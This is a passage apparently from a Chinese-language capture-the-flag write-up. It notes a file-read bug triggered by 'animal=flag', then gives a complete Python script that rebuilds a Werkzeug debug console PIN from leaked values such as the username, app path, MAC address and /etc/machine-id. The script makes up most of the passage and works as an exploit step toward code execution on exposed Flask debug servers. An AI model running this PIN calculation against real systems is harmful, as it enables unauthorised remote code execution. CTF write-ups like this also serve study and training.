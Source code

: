 同时尝试传入 `animal=flag` 可以得到内容而不是报错，猜测 flag 文件就存在当前目录下。下一步要做的就是突破文件读取长度限制。

##### Werkzeug Debug Console PIN Crack

> 参考：https://book.hacktricks.xyz/pentesting/pentesting-web/werkzeug

参考文章中有逆向 Werkzeug Debug Console 的 PIN 生成原理的内容，这里直接贴脚本。

```python
import hashlib
from itertools import chain

probably_public_bits = [
    'web3_user',  # username
    'flask.app',  # modname
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
    '279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
    'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```
